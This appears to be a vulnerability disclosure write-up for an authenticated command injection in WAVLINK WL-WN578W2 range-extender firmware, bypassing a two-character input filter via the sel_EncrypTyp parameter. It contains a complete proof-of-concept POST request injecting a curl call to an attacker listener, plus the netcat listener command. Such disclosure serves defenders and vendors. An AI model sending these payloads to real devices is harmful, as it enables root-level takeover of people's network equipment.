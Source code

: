 # WAVLINK WL-WN578W2 M78W2\_V221110 Authenticated Command Injection (Filter Bypass in /cgi-bin/adm.cgi)

PS:



1.  QEMU simulation is difficult; use a physical WAVLINK WL-WN578W2 for testing.

2.  **Authenticated access required**: Attackers need valid login credentials (e.g., username/password) to send requests to `/cgi-bin/adm.cgi`, but weak input filters can still be bypassed for command injection.The session does not pass a cookie, but it is confirmed that the attack cannot succeed without logging in, and the reason is unknown.

## Overview

An authenticated command injection vulnerability (with filter bypass) exists in `/cgi-bin/adm.cgi` of WAVLINK WL-WN578W2 (firmware M78W2\_V221110). After logging in, attackers can exploit the weak input filter (only blocks 2 characters: `|`, `` ` ``) to bypass restrictions, then inject arbitrary system commands via the `sel_EncrypTyp` parameter. This enables execution of `root`-level commands, leading to full device compromise.



![Vulnerability Overview: Authenticated Filter Bypass Flow](./imgs/1.png)

## Details



*   **Vendor**: WAVLINK

*   **Vendor Website**: [https://www.wavlink.com/zh\_cn/index.html](https://www.wavlink.com/zh_cn/index.html)

*   **Product**: WAVLINK WL-WN578W2 (wireless range extender)

*   **Firmware**: M78W2\_V221110

*   **Firmware Download**: [https://docs.wavlink.xyz/Firmware\_ch/fm-578w2/](https://docs.wavlink.xyz/Firmware_ch/fm-578w2/)

*   **Affected Endpoint**: `/cgi-bin/adm.cgi` (POST method, requires login)

*   **Vulnerable Parameter**: `sel_EncrypTyp`

*   **Vulnerability Type**: Authenticated Command Injection (Filter Bypass)

*   **CVE ID**: Pending

*   **Impact**: After login, execute arbitrary `root` commands (exfiltrate sensitive data, plant backdoors, modify device configurations) via filter bypass.

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Analysis

#### 1. Weak Input Filter (Bypassable)

The firmware’s `sub_40A91C` function implements a basic input filter, but only blocks two characters:



*   Blocks `|` (pipe) and `` ` `` (backtick) to prevent simple command injection.

*   Ignores common command separators: `;` (semicolon), `&&` (logical AND), `||` (logical OR), `$(` (command substitution).

    After logging in, attackers can use these allowed separators to bypass the filter and inject malicious commands.




#### 2. Command Injection Vector

After successful login, the `sel_EncrypTyp` parameter (extracted from POST requests via `sub_409184`) is directly concatenated into system commands without additional sanitization. Since the weak filter fails to block key separators, attackers can inject arbitrary commands into `sel_EncrypTyp` (e.g., append `; [malicious command] #`), which are executed with `root` privileges.

![Weak Filter Logic Snippet](./imgs/2.png)
![Weak Filter Logic Snippet](./imgs/3.png)
![Weak Filter Logic Snippet](./imgs/4.png)

## Proof of Concept (PoC)

### PoC

#### 1. Prepare for Exploitation



*   Start a Netcat listener on the attacker machine (IP: 192.168.10.154, Port: 1234) to monitor command execution results:



```
nc -lvnp 1234
```

#### 2. Visit wizard_rep.shtml and Send  POST Request:

Visit wizard_rep.shtml

```
POST /cgi-bin/adm.cgi HTTP/1.1
Host: wifi.wavlink.com
Content-Length: 728
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://wifi.wavlink.com
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://wifi.wavlink.com/wizard_rep.shtml
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

page=wzdrepeater&select=sel2&sel_Automode=WPA2PSK&sel_EncrypTyp=AES;curl http://192.168.10.154:1234#&wlan_ssid=a827&wlan_bssid=34%3A0a%3A98%3A1a%3A6e%3Aac&wlan_signal=100&wlan_channel=9&wlan_index=2&wlan_wepkey=&wepKeyLen0=&format0=&key0=&pskFormat0=0&pskValue0=&ciphersuite0=&wpa2ciphersuite0=&wepKeyLen1=&length1=&format1=&key1=&pskFormat1=&pskValue1=&ciphersuite1=&wpa2ciphersuite1=&submit-url=%2Fcountdown.htm%3Fsettp%3D5&submit-value=&static_en=0&hostname=&skiplist1=12%3B13%3B14%3B&skiplist2=&skiplist3=&manual_pw=&Model=repeater&rep_type=0&web_pskValue=jm912558&wl_rep_ssid2g=a827_EXT&wl_rep_ssid5g=&wl_rep_ssid5g_2=&ssid2g_input=&Channel=&SECURITYMODE=NONE&wl_key=&wl_rep_ssid2=&wl_rep_ssid5=&INPUTTYPE=0&repeater_mode=0
```




#### 3. Verify Command Execution

The Netcat listener receives a request from the device’s IP (e.g., 192.168.10.1), confirming that the injected `curl` command was executed successfully (filter bypass and authenticated command injection work):



![Step 3: Netcat Captures Execution Result](./imgs/5.png)


